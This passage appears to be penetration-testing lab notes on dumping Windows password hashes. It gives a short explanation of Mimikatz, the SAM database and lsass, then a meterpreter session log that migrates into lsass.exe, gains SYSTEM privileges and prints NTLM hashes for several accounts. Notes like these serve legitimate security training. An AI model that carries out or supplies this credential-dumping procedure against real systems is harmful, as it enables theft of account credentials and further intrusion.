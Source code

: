 

---

#### Dumping Hashes With Mimikatz

- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.
  **Note:** Mimikatz will require elevated (administrative) privileges in order to run correctly





**migrate with lsass process**

```bash
meterpreter > sysinfo 
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > hashdump 
[-] 2007: Operation failed: The parameter is incorrect.

meterpreter > pgrep lsass
788

meterpreter > migrate 788
[*] Migrating from 368 to 788...
[*] Migration completed successfully.

meterpreter > sysinfo 
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::

```
